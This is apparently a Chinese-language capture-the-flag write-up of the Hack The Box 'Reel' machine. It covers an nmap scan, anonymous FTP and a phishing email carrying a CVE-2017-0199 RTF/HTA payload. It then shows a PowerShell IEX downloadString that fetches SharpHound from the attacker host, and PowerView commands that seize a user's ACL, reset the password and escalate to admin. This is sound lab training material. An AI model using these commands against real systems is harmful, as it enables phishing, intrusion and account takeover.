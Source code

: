 ```yaml
---
title: Reel
date: 2021-12-24 11:32:51
tags: Hack The box
top: true
categories: 邮箱钓鱼
---
```


## 信息收集

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-14 05:18 EST
Nmap scan report for 10.10.10.77
Host is up (0.30s latency).
Not shown: 9997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp open  ssh     OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:20:c3:bd:16:cb:a2:9c:88:87:1d:6c:15:59:ed:ed (RSA)
|   256 23:2b:b8:0a:8c:1c:f4:4d:8d:7e:5e:64:58:80:33:45 (ECDSA)
|_  256 ac:8b:de:25:1d:b7:d8:38:38:9b:9c:16:bf:f6:3f:ed (ED25519)
25/tcp open  smtp?
| fingerprint-strings: 
|   Hello: 
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help: 
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   NULL: 
|_    220 Mail Service ready
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.91%I=7%D=11/14%Time=6190E2F5%P=x86_64-pc-linux-gnu%r(NUL
SF:L,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mail\x20
SF:Service\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\r\n")
SF:%r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO\x20E
SF:HLO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r\n
SF:");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   301.22 ms 10.10.14.1
2   301.21 ms 10.10.10.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.69 seconds
```

<!--more-->

发现开放了21端口，可以匿名登录，并且在documents目录下发现了两个docx文件，我们将其下载下来并使用exiftool查看内容如下![在这里插入图片描述](https://img-blog.csdnimg.cn/15c476e67c4941c6b76d60c03fdede70.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
readme.txt文件告诉我们有人正在等待 .rtf 文件并将打开它们进行审查，因为考虑到机器上正在运行 SMTP 服务，这可能是我们的目标，具有网络钓鱼攻击。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c858f787033a4c5b8a8cbbe73d598b86.png)

查阅官方文档发现，AppLocker可以阻止可执行文件和脚本

```bash
AppLocker procedure to be documented - hash rules for exe, msi and scripts  (ps1,vbs,cmd,bat,js) are in effect.
```

我们发现Windows Event Forwarding.docx这个文件中存在一个邮箱地址`nico@megabank.com`
![在这里插入图片描述](https://img-blog.csdnimg.cn/14102687e160477884fd2f3e6c8910a6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

根据刚刚readme.txt的文件内容，我们可以尝试将rtf文件发送到这个地址上，我们从application字段中发现我们可以使用word文档的方式进行创建。并且我们在网上搜索看到，关于rtf文件漏洞利用是已经披露的漏洞编号`CVE-2017-0199`，此漏洞允许创建恶意 rtf 文档，在打开文档时启动 HTA（超文本应用程序)有效负载，Github 上有一个用于制作利用此漏洞的恶意文档的 Python 工具包，但也有一个 Metasploit 模块，我仍然将使用 Python 脚本。

## 漏洞利用

首先我们创建一个hta的载荷
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6c156c3e5e84eebb3b7207a29673574.png)
本地开启http服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/ebf7fdbfa46043bb84f2a0e1c331c6c7.png)

然后利用这个hta脚本，创建rtf文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf21d9b792054d399fe94052c21c3129.png)
最后发送钓鱼邮件进行获取权限

```bash
sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u Test -m "Hey, take a look at this new format procedure" -a document.rtf -s 10.10.10.77 -v
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f64aa5ef2a984a4e92fd8dfed197da16.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发送钓鱼邮件并开启监听，我们得到了nico账户的用户权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/6965f266fe7341beb4fd71506ff9335b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权到TOM权限

我们从Nico账户的桌面上看到一个cred.xml文件，文件内容包含了password字段内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b971324dcaa14613a8d91aa6b4997923.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
PowerShell 有一个称为 PSCredential 的对象，它提供了一种存储用户名、密码和凭据的方法。还有两个函数Import-CliXml和Export-CliXml，用于将这些凭据保存到文件中并从文件中恢复它们。该文件是Export-CliXml，我们发现Tom的密码是`1ts-mag1c!!!`

```bash
C:\Users\nico\Desktop>powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

因为目标主机开放了22端口，因此我们可以连接主机的远程服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0ef87585054476281e5aa1595fa284e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在tom的桌面的AD audit文件夹下发现了一个有趣的文件内容，还有一个BloodHound文件夹
![在这里插入图片描述](https://img-blog.csdnimg.cn/67be2e3fd4494a14bc46cd3a6af8eb45.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e9b9cfa8736d42788e6f32b6d3b628fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
经过查阅文章发现，bloodhound通过csv文件形式保存文件的，都是2.0版本以前的了，那么我们现在有两个选择，一个是在目标主机上安装旧版本的bloodhound，二是将收集到的数据上传到我们攻击机上进行分析，我选择的是第二种方式。

首先我们将目标的脚本加载到内存中，绕过powershell的策略限制。收集到的信息保存在当前目录的一个压缩包中。

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/sharphound/SharpHound.ps1')
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/44243984d10a4293a08aebd5b9748298.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了传输方便，我们在本地开启smb服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/65746cbe84ba4b048fb124b74a55a741.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在攻击机上开启bloodhound后，将压缩包拖进去进行分析，点击`Shortest Paths to High Value Targets`。为了方便筛选，我们选择tom到admin的提权路径和nico到admin的路径进行分析
![在这里插入图片描述](https://img-blog.csdnimg.cn/29bd464348754983b4412b33ca42a996.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/399172cccb7243948e1b64abf136697b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我知道 claire 对 Backup_Admins 组具有 WriteDacl 权限。我可以用它把她加到群里，但是事先我们先得连接到claire这个用户上。

## 提权到Administrator

首先，我们将自己设置为 claire 帐户的所有者，以便我们可以更改她的属性；然后我们更改 claire AD 对象的访问控制列表 (ACL) 以授予我们自己 (Tom) 重置 claire 密码的权限；然后我们为该帐户选择一个新密码并将其转换为 SecureString 格式，这就是 PowerShell 用于密码的格式；我们可以使用我们选择的一个更改 claire 的密码；为了将用户添加到组，我们必须提供有效的用户凭据，因此我们声明一个 PSCredential 对象来包含 claire 的用户名和密码，因为她是对 Backup_Admins 组具有写访问权限的人；最后我们使用它来将自己添加到 Backup_Admins 组

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound> import-module .\PowerView.ps1
PS C:\Users\tom\Desktop\AD Audit\BloodHound>  Set-DomainObjectOwner -Identity claire -OwnerIdentity tom                         
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword  
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $password= ConvertTo-SecureString 'Password_123!' -AsPlainText -Force              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $password                 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $creds = New-Object System.Management.Automation.PSCredential('HTB\claire',$passwor
d)                                                                                                                              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $cred
s
```

whoami /all查看到我们已经处于backup_admins组中了
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ff1c27957d54fe3b71bfa62126f58b1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们还是无法查看root.txt的内容，我们却可以查看`Backup Scripts`的内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4491a3626c84023b3f122732aa44800.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们在`BackupScript.ps1`中找到管理员的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/3285fc7c314a4f98840bb0bc74f27320.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
直接登录管理员账号
![在这里插入图片描述](https://img-blog.csdnimg.cn/f96c6ddacbff4775947400c9dfd03743.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
